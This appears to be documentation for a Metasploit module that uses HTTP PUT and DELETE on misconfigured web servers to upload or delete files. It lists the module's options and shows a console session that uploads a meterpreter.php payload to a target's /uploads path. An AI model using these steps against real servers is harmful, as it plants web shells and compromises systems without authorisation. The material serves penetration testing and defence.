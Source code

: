 ## Description 
This module can abuse misconfigured web servers to upload and delete web content via PUT and DELETE HTTP requests.

## Verification Steps

1. Do: ```use auxiliary/scanner/http/http_put```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set RPORT [PORT]```
4. Do: ```set PATH [PATH]```
5. Do: ```set FILENAME [FILENAME]```
6. Do: ```set FILEDATA [PATH]```
7. Do: ```run```

## Options

### ACTION

Set `ACTION` to either `PUT` or `DELETE`. (Default: `PUT`)

### PUT

Action is set to PUT to upload files to the server. If `FILENAME` isn't specified, the module will generate a random string as a .txt file.

### DELETE 

Deletes the file specified in the `FILENAME` option (Default: `msf_http_put_test.txt`). `FILENAME` is required when Action is set to DELETE. 

### PATH

The path at which this module will attempt to either PUT the content or DELETE it.

### FILEDATA

The content to put in the uploaded file when `ACTION` is set to `PUT`.


## Scenarios

Here `ACTION` is by default set to `PUT`.

```
msf > use auxiliary/scanner/http/http_put
msf auxiliary(scanner/http/http_put) > set RHOSTS 1.1.1.23
RHOSTS => 1.1.1.23
msf auxiliary(scanner/http/http_put) > set RPORT 8585
RPORT => 8585
msf auxiliary(scanner/http/http_put) > set PATH /uploads
PATH => /uploads
msf auxiliary(scanner/http/http_put) > set FILENAME meterpreter.php
FILENAME => meterpreter.php
msf auxiliary(scanner/http/http_put) > set FILEDATA file://root/Desktop/meterpreter.php
FILEDATA => file://root/Desktop/meterpreter.php
msf auxiliary(scanner/http/http_put) > run 

[+] File uploaded: http://1.1.1.23:8585/uploads/meterpreter.php
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/http/http_put) >
```
 
